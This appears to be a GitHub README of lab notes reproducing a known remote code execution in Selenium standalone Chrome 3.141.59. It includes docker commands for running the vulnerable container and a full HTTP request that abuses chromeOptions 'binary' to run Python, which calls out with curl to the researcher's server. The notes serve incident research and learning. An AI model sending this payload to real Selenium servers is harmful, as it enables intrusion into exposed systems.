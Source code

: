 # selenium_code_exec_notes
Selenium Chrome 3.141.59 code exec notes

Note: this is not anything new. This repo just contains notes.

I was researching weird code execution alert in a selenium docker container. 
I'm surprised someone is running the old versions in 2024 and i'm even more suprised that someone is targeting this.

I started researching what the vuln could be and came across the following resources:
- https://www.reddit.com/r/selfhosted/comments/12drr31/remote_server_compromised/ - reddit user discussing similar incident
- https://pixeldrain.com/u/durDp8dh - logs from the reddit user above. shows "goog:chromeOptions" and "binary" used to execute python
- https://www.exploit-db.com/exploits/49915 - exploit 
- https://www.cybersecurity-help.cz/vdb/SB2021060114 - vuln info
- https://www.gabriel.urdhr.fr/2022/02/07/selenium-standalone-server-csrf-dns-rebinding-rce/ - This helped a lot! This pretty much shows the similar execution to the execution seen by the reddit user.


For fun/learning, I wanted to replicate it in my lab.

# running the container
```
docker pull selenium/standalone-chrome-debug:3.141.59-20210929 
docker run --rm -p 4444:4444 selenium/standalone-chrome-debug:3.141.59-20210929
```

Container running:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/48a72575-1954-41c5-a353-03024e68a8d0)

poc execution:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/28cc34d1-5538-4d58-921f-3e0b8a30766e)

curl request to my server:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/66dc8e2f-ef7c-4de7-88a4-c810660c6c9d)

docker logs:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/6b43c002-a9a8-4fba-b978-f334aab810c9)

HTTP request:
```
POST /wd/hub/session HTTP/1.1
Host: localhost:4444
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
Content-Length: 199

{"capabilities": {"alwaysMatch": {"browserName": "chrome", "goog:chromeOptions": {"binary": "/usr/bin/python3", "args": ["-cimport os;os.system('curl http://192.168.42.130:8080/from_container')"]}}}
```

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/3f45571a-4ba7-4ad8-a0f9-6adf62876606)
